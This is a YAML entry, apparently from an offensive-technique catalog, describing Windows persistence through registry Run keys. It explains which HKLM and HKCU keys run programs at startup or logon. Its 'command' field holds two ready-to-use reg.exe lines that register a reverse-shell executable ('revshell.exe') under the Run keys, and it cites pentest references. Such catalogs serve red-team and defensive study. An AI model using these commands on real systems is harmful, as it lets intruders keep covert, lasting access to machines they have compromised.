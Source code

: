 ```yaml
---
description: |
  It is possible to gain persistence on a windows machine by adding reg keys that will execute an arbitrary payload during logon or startup. Keys added to the HKLM hive will execute on startup. Keys added to the HKCU hive will execute when the corresponding user logs on. Adding keys into the HKLM hive will require an elevated shell. There are four keys that can be used: Run, RunOnce, RunServices, and RunServicesOnce. By default, a RunOnce key is deleted after the specified command is executed. The path for these keys is the same for the HKLM and HKCU hives.

  Command Reference:

  	Value Name: /v Persistence

  	RegKey data type: /t REG_SZ
    
    Data: /d "C:\Path\To\revshell.exe"

    KeyName: "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" 

command: |
   reg.exe add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Persistence /t REG_SZ /d "C:\Path\To\revshell.exe"
   reg.exe add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Persistence /t REG_SZ /d "C:\Path\To\revshell.exe"

items:
  - Shell
OS:
  - Windows
attack_types:
  - Persistance
references:
  - https://pentestlab.blog/2019/10/01/persistence-registry-run-keys/
  - https://www.hackingarticles.in/windows-persistence-using-winlogon/
  - https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg
  - https://docs.microsoft.com/en-us/windows-hardware/drivers/install/runonce-registry-key
---
```

